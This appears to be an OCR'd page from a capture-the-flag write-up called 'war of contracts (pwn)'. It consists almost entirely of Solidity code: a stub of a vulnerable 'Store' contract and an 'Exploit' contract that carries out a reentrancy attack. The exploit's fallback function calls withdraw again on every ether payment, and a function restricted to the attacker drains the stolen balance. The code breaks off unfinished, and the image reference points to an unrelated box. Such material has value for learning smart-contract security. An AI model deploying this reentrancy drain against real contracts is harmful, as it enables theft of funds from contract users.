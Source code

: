 ![image](/assets/img/hackthebox/bitlab/playcon.png)


# war of contracts (pwn)

```javascript

pragma solidity ^0.4.18;

contract Store {
  
  mapping(address => uint) public balances;
  function donate(address _to) public payable {}
  function balanceOf(address _who) public view returns (uint balance) {}
  function withdraw(uint _amount) public {}

  function() public payable {}
}


contract Exploit {
    
    address public attacker;
    
    // point to our target contract 
    address target = 0x880cbeace7eba65f5c2c8d8eb3bc80155d180329;
    Store  Victim = Store(target);
    
    //set contract's ownership to our badboy 
    constructor()  {
        attacker = msg.sender;
    }

    modifier onlybadBoy {
        require(
            msg.sender == attacker,
            "caller is not the hacker"
        );
        _;
    }

    // our hackable function that call withdraw function in the vulnerable contract
    function Hack(uint _amount) public  {
        Victim.withdraw(_amount);
    }
    // function to trasnfer all the money in our contract to our account with only badboy privilege
    function getMyMoney() public onlybadBoy {
        msg.sender.transfer(this.balance);
    }
    // fallback function that make our contract recieve ethers and call hack function once it get executed 
    function() public payable {
        Hack(1 ether);
    }
```